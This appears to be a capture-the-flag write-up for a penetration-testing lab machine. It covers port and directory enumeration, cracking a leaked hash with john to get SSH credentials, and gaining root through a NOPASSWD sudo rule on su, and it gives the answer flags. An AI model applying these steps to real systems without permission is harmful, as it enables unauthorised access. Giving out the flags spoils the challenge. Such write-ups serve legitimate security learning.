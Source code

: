 # Final Exam CC PenTesting

```
export ip=10.10.28.72
```

## **Nmap** response in **nmap/initial**

## **Nikto** response in **nikto/initial**

## **Gobuster** response in **gobuster/initial** - _/secret/_

### Gobuster search on _secret_ with `-x txt` flag => **secret.txt**

**$ip/secret/secret.txt** showed a hash `nyan:046385855FC9580393853D8E81F240B66FE9A7B8` which was decoded with _john_.

It resulted in credentials for an ssh connection `nyan:nyan`

## Privelage escalation

```
> sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```
So I ran

```
sudo su
```
And then I am root.

## What is the user.txt?

```
supernootnoot
```

## What is the root.txt?

```
congratulations!!!!
```

